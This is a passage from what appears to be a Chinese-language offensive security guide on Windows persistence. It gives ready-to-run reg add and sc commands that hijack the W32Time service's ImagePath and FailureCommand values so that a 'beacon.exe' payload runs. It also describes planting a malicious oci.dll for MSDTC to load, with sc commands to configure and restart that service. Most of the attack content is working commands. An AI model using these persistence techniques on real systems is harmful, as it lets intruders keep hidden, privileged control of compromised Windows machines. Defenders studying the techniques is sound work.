 ##### 图像路径

“ ***ImagePath*** ”注册表项通常包含驱动程序映像文件的路径。使用任意可执行文件劫持此Key将导致有效负载在服务启动期间运行

```cmd
# Usage
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time" /v ImagePath /t REG_SZ /d "<path to executable>"

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time" /v ImagePath /t REG_SZ /d "C:\tmp\beacon.exe"
```

##### 失败命令

Windows 提供了一种功能，以便在服务无法启动或其通信进程终止时执行某些操作。具体来说，当服务被终止时可以执行命令。控制此操作的注册表项是“ ***FailureCommand*** ”，它的值将定义将执行的内容

```cmd
# Usage
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time" /v FailureCommand /t REG_SZ /d "<path to executable>"
reg delete "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time" /v FailureCommand

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time" /v FailureCommand /t REG_SZ /d "C:\tmp\beacon.exe"
```

***或者，可以通过使用***  ***“sc”*** 实用程序并指定 ***“failure”*** 选项来执行相同的操作

```cmd
# Usage
sc failure <Server Name> command= "\"<path to executable>\""

sc failure Rex command= "\"C:\tmp\beacon.exe\""
```

### 6. DLL劫持

当程序启动时，许多 DLL 被加载到其进程的内存空间中，Windows 通过按特定顺序查找系统文件夹来搜索进程所需的 DLL

#### MSDTC

分布式事务协调器是一个 Windows 服务，负责协调数据库 (SQL Server) 和 Web 服务器之间的事务

当此服务启动时会尝试从 System32 加载三个 DLL 文件：oci.dll、SQLLib80.dll、xa80.dll

```cmd
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\MSDTC\MTxOCI
```

##### oci.dll

在默认的 Windows 安装中，System32 文件夹中缺少 ***“oci.dll ”***。这使得有机会将任意 DLL 植入到该文件夹中，该文件夹具有相同的名称（需要管理员权限），以便执行恶意代码

```cmd
sc qc msdtc
sc config msdtc start= auto

net stop msdtc && net start msdtc
msdtc -install
```
